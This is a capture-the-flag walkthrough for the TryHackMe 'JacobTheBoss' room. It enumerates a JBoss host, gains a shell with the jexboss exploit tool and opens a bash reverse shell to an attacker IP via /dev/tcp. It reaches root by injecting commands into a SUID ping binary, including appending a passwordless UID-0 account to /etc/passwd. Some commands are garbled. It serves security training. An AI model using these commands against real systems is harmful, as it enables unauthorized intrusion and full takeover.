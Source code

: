 # 58 - JacobTheBoss (jboss exploitation)

Room Link --> [https://tryhackme.com/room/jacobtheboss](https://tryhackme.com/room/jacobtheboss)

\*First of all, add the `jacobtheboss.box` address to your hosts file.

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.203.6 -p- -T4 -T5 -sV

22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
1090/tcp  open  java-rmi     syn-ack Java RMI
1098/tcp  open  java-rmi     syn-ack Java RMI
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
8083/tcp  open  http         syn-ack JBoss service httpd
39195/tcp open  unknown      syn-ack
42774/tcp open  java-rmi     syn-ack Java RMI
43179/tcp open  unknown      syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://jacobtheboss.box -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403,404 -x php,txt,db,sql,ini

/index.php
/themes
/public
/admin
/LICENSE
/CHANGELOG
/CREDITS
/locales
```
{% endcode %}

Visiting port 8080

[http://jacobtheboss.box:8080/](http://jacobtheboss.box:8080/jmx-console/HtmlAdaptor?)

### Initial Access

I searched for the jboss exploit, and hacktricks rediected me to this [link](https://github.com/joaomatosf/jexboss).

Clone the repo and run the script.

```bash
python3 jexboss.py -u http:///jacobtheboss.box:8080/

# and got a limited shell.
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Getting a better shell

Setup NC listener and run this in the restricted shell.

```bash
Shell> /bin/bash -i > /dev/tcp/10.18.88.214/4242 0<&1 2>&1
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Shell is a bit stable now.

### Priv Esc

{% code overflow="wrap" lineNumbers="true" %}
```bash
[jacob@jacobtheboss ~]$ finfind / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
[jacob@jacobtheboss ~]$
```
{% endcode %}

That `/usr/bin/pingsys` is an interesting binary. @ ways to exploit it:

#### Option 1

We enter the below cmd and got root.

```bash
[jacob@jacobtheboss ~]$ /usr/bin/pingsys '10./usr/bin/pingsys '10.10.203.6; /bin/bash'
/usr/bin/pingsys '10.10.203.6; /bin/bash'
PING 10.10.203.6 (10.10.203.6) 56(84) bytes of data.
64 bytes from 10.10.203.6: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 10.10.203.6: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 10.10.203.6: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 10.10.203.6: icmp_seq=4 ttl=64 time=0.029 ms

--- 10.10.203.6 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.014/0.026/0.034/0.008 ms
[root@jacobtheboss ~]# 


```

#### Option 2

In this command below, “0” is the UID of the root user, so adding a user with the UID of “0” will give that user root privileges. This user will have the username of “dking” and an empty password:

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/bin/pingsys ‘10.10.244.174; echo dking::0:0:pwned by d31ng:/root/root:/bin/bash >> /etc/passwd
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*CRQ5jvlqgT95SoEsiJg6JQ.png" alt="" height="210" width="700"><figcaption></figcaption></figure>

Done!
